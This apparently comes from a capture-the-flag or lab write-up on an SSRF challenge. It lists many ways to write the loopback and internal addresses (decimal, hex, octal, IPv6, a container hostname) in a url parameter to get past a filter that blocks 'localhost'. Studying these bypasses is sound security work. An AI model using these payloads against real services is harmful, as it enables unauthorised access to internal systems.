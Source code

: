 #### 4.1. SSRF 3

Failed attempts:
```
$target/?url=http://localhost:1234 (Invalid URL)
$target/?url=http://127.0.0.1:1234 (Invalid URL)
```

Solution is to re-write `localhost` IP address under different formats.

Decimal IP - converts to `0.0.0.0`:
```
$target/?url=http://0:1234
$target/?url=http://0x00:1234
$target/?url=http://0000:1234
$target/?url=http://00000000000000000000:1234
```

Decimal IP - converts to `127.x.x.x`:
```
$target/?url=http://2130706433:1234
$target/?url=http://127.1:1234
$target/?url=http://127.127.127.127:1234
$target/?url=http://127.0.0.0:1234
$target/?url=http://127.x.y.z:1234
$target/?url=http://127.1.1.1:1234\@@127.2.2.2:1234/
$target/?url=http://0x7F000001:1234
$target/?url=http://0x7f.0x0.0x0.0x1
$target/?url=http://0177.0.0.01
$target/?url=http://0177.0.0.0x1
```

Other:
```
$target/?url=http://0.0.0.0:1234
$target/?url=http://172.17.0.56:1234
$target/?url=http://645dfd9b516b:1234 - where `645dfd9b516b` is the hostname
```

IPV6
```
$target/?url=http://[::1]:22
$target/?url=http://[0:0:0:0:0:FFFF:7F00:0001]:22
$target/?url=https://[2604:1380:1000:af00::1]
```
